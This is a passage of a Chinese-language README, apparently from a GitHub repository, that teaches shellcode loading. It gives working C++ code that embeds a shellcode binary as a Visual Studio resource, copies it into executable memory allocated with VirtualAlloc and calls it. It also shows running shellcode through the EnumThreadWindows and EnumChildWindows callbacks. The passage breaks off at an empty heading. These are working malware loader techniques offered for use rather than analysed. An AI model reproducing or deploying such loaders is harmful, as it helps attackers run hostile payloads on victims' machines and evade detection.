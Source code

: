 ### 资源加载shellcode

生成bin文件shellcode

**VisualStudio->解决方案->资源文件->添加->资源**

![image-20230419174631527](./README.assets/image-20230419174631527.png)

导入-自定义资源类型

![image-20230419174745700](./README.assets/image-20230419174745700.png)

ctrl+s 保存

![image-20230419174847116](./README.assets/image-20230419174847116.png)



```c++
#include"resource.h"
#include <windows.h>
#include<iostream>


int main() {
    {
        HRSRC Res = FindResource(NULL, MAKEINTRESOURCE(IDR_BIN1), L"bin"); DWORD Size = SizeofResource(NULL, Res);
        HGLOBAL Load = LoadResource(NULL, Res);
        void* buffer = VirtualAlloc(0, Size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        memcpy(buffer, Load, Size);
        ((void(*)())buffer)();

    }

}
```

64位release生成解决方案(shellcode位数要与release位数相同)



### EnumThreadWindows执行shellcode

当 `EnumThreadWindows` 开始枚举线程的顶级窗口时，它会针对每个窗口调用回调函数。而在这里，`ptr` 所指向的函数不是一个普通的回调函数，而是一个包含了 Shellcode 的函数。因此，当 `EnumThreadWindows` 调用 `ptr` 时，实际上会执行 Shellcode。

```c++
EnumThreadWindows(0, (WNDENUMPROC) ptr, 0);
```

```c++
EnumChildWindows((HWND) NULL, (WNDENUMPROC) ptr, NULL);
```

#### **核心函数**
